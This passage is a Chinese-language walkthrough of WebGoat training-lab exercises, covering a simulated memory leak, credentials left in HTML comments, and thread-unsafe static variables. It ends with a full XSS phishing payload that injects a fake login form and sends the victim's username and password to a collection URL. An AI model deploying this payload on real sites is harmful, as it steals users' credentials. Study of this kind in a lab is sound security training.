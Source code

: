 ![Figure01](http://drops.javaweb.org/uploads/images/3351486251f0c626aa7aa3e960ef13908703a61c.jpg)

![Figure02](http://drops.javaweb.org/uploads/images/1d38ef5f3609846d9e7aa7eafc39659f5285d0ea.jpg)

这个Character Blocks是什么意思呢?就是代表用4096位的A开始然后50位50位的依次加长长度,直到达到10240位,然后点击Start Attack,查看大于4096位之后的结果,就可以看到模拟出的内存泄漏信息

![Figure03](http://drops.javaweb.org/uploads/images/1c8eb558690bf3e48a7018d88b70954487fa185e.jpg)

Code Quality-Discover Clues in the HTML
---------------------------------------

这一篇主要在讲,没事不要他娘的乱写备注...比如这个作者把管理员用户名密码写备注里了

```
<!-- FIXME admin:adminpw  -->
<!-- Use Admin to regenerate database  -->

```

Concurrency-Thread Safety Problems
----------------------------------

线程安全问题,有些程序员写代码的时候喜欢各种用Static/Const之类的,觉得自己对内存了如指掌,吊的不知道哪里去了.但是往往忽略了多线程的问题,比如这个问题的源码

```
private static String currentUser;
private String originalUser;

```

这里currentUser使用了static静态变量,又没有做线程保护,就会造成浏览器Tab1访问这个页面时,Tab2同时访问,数据就会被替换掉

Concurrency-Shopping Cart Concurrency Flaw
------------------------------------------

如上题一样,也是由于使用了静态变量却没有做线程保护,导致的购物车多线程支付问题.

0x03 XSS
=====

Cross-Site Scripting (XSS)-Phishing with XSS
--------------------------------------------

简单的反射型XSS钓鱼演示

```
</form>
  <script>
    function hack(){ 
    XSSImage=new Image;
    XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";
    alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);
} 
  </script>
<form name="phish">
<br>
<br>
<HR>
  <H2>This feature requires account login:</H2>
<br>
  <br>Enter Username:<br>
  <input type="text" name="user">
  <br>Enter Password:<br>
  <input type="password" name = "pass">
<br>
  <input type="submit" name="login" value="login" onclick="hack()">
```